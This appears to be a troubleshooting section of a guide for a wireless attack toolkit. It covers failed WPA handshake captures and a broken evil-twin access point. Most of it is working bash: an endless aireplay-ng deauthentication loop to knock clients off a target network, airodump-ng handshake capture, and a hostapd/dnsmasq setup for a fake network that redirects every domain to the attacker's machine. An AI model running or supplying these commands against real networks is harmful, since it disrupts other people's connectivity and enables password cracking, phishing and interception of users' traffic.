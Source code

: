 ### No Handshake Captured

**Checklist**:
1. Correct channel? `iw dev wlan1 info`
2. Client connected? Check airodump-ng output
3. Enough deauth packets? Try `count 100`
4. Right interface? Should be wlan1 in monitor mode
5. Distance/signal? Get closer to AP

**Enhanced capture**:
```bash
# Use fixed channel, no hopping
airodump-ng -c 6 --bssid <AP_MAC> -w handshake wlan1

# Aggressive deauth
while true; do
    aireplay-ng --deauth 10 -a <AP_MAC> wlan1
    sleep 3
done
```

### Evil Twin Not Working

**Checklist**:
1. DHCP running? Check `dnsmasq` process
2. IP forwarding? `cat /proc/sys/net/ipv4/ip_forward` should be 1
3. iptables rules? Need NAT/MASQUERADE
4. Clients connecting? Check `bh wifi ip` or `cat /var/lib/misc/dnsmasq.leases`

**Manual setup if bh fails**:
```bash
# Interface setup
ip link set wlan1 down
iw dev wlan1 set type managed
ip link set wlan1 up
ip addr add 192.168.10.1/24 dev wlan1

# hostapd
cat > /tmp/hostapd.conf << EOF
interface=wlan1
ssid=FakeNetwork
channel=6
hw_mode=g
EOF
hostapd /tmp/hostapd.conf &

# DHCP
cat > /tmp/dnsmasq.conf << EOF
interface=wlan1
dhcp-range=192.168.10.10,192.168.10.100,12h
dhcp-option=3,192.168.10.1
dhcp-option=6,192.168.10.1
address=/#/192.168.10.1
EOF
dnsmasq -C /tmp/dnsmasq.conf &
```
